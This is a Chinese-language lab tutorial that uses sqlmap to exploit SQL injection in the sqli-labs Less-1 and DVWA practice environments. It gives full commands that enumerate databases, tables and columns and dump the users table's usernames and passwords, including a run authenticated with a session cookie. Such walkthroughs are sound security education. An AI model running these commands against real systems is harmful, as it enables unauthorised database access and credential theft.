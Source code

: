 #### sqlmap注入实例一：

以sqlib-labs less-1举例。

1.输入id=1',根据报错可判断出为字符型单引号注入

![image-20211008160913473](https://i.loli.net/2021/10/08/CK47QHk9tmLdYo1.png)

2.猜测sql语句大概为

`select password,username from 表名 where id = 参数 LIMIT 0,1`

2.-u参数，一共发现四种类型注入（-u #注入点）

`python3 sqlmap.py -u "http://1.14.43.183:11080/Less-1/?id=1"`

![image-20211008161812468](https://i.loli.net/2021/10/08/6bU37lwCRsiY8oE.png)

3. -dbs参数爆数据库获取到全部数据库，也可以用-current-db获取当前数据库名称
4. `python3 sqlmap.py -u "http://1.14.43.183:11080/Less-1/?id=1" -dbs`

![image-20211008162145241](https://i.loli.net/2021/10/08/n1dqXyN3SfTQrt7.png)

4. -tables参数爆表（-D 指定数据库名）

`python3 sqlmap.py -u "http://1.14.43.183:11080/Less-1/?id=1" -D security -tables `

![image-20211008162504352](https://i.loli.net/2021/10/08/jAU1VPxCNnJWY2e.png)

5.-columns爆列（-T 指定表名）

`python3 sqlmap.py -u "http://1.14.43.183:11080/Less-1/?id=1" -D security -T users -columns`

![image-20211008162707350](https://i.loli.net/2021/10/08/5RyImbrW3OLM4Qi.png)

6. -dump爆数据（-C 指定字段）

`python3 sqlmap.py -u "http://1.14.43.183:11080/Less-1/?id=1" -D security -T users -C id,username,password -dump`

![image-20211008162857905](https://i.loli.net/2021/10/08/6Xo1Jr2HYBR3i4Z.png)

#### sqlmap注入实例二：

以DVWA为例。

1.DVWA是需要登录的，需要加上登录使用的cookie，由前面可知，注入点为`http://1.14.43.183:11081/vulnerabilities/sqli/?id=1&Submit=Submit#`

2.-u参数，加上--cookie

`python3 sqlmap.py -u "http://1.14.43.183:11081/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie=PHPSESSID=8l8ujegpqapm7jr5hqcpr5gck3;security=low`

3.接下来的步骤和实例一没什么区别

